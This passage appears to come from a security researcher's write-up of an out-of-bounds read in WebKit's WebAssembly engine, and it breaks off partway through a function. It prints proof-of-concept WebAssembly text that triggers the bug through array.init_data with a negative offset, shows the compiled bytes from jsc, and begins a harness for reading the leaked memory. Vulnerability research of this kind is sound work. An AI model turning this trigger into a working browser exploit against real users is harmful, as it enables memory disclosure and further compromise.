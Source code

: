 Then, I created `genWasm.js` and wrote the following code.
```js
import { compile, instantiate } from "./wast-wrapper.js";

function genWasm() {
  var wasm_module = compile(`
    (module
      (memory (export "memory") 1)
      (type $vec (array (mut i32)))
      (data $data0 "1234")
      (func $main(result (ref null $vec))
        (local $arr(ref null $vec))
        (local.set $arr (array.new_default $vec (i32.const 4)))
        (array.init_data $vec $data0
          (local.get $arr)
          (i32.const 0)
          (i32.const -2)
          (i32.const 1))
        (local.get $arr)
      )
      (export "main" (func $main))
    )
`);
}

genWasm();
```

When the `compile` function is called, the compiled WASM bytes is output.

```
$ ./WebKitBuild/Release/jsc -m ./wasm_test/genWasm.js
[0,97,115,109,1,0,0,0,1,137,128,128,128,0,2,94,127,1,96,0,1,99,0,3,130,128,128,128,0,1,1,5,131,128,128,128,0,1,0,1,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,12,129,128,128,128,0,1,10,160,128,128,128,0,1,154,128,128,128,0,1,1,99,0,65,4,251,7,0,33,0,32,0,65,0,65,126,65,1,251,18,0,0,32,0,11,11,135,128,128,128,0,1,1,4,49,50,51,52]
```

When the vulnerability is triggered, data is copied from the OOB pointer. The following code is for getting the results of the OOB read.
```js
import { compile, instantiate } from "./wast-wrapper.js";

function getOOB() {
    var instance = instantiate(`
    (module
        (memory (export "memory") 1)
        (type $vec (array (mut i32)))
        (data $data0 "1234")
        (func (export "main") (param $arr (ref null $vec)) (result (ref null $vec))
        (local.set $arr (array.new_default $vec (i32.const 4)))
        (array.init_data $vec $data0
            (local.get $arr)
            (i32.const 0)
            (i32.const -2)
            (i32.const 1))
        (local.get $arr)
        )
        (func (export "array_array_default") (param $n i32) (result (ref $vec))
            (array.new_default $vec (local.get $n))
        )
        (func (export "array_get") (param $arr (ref $vec)) (param $i i32) (result i32)
        (array.get $vec (local.get $arr) (local.get $i))
        )
    )
    `);
```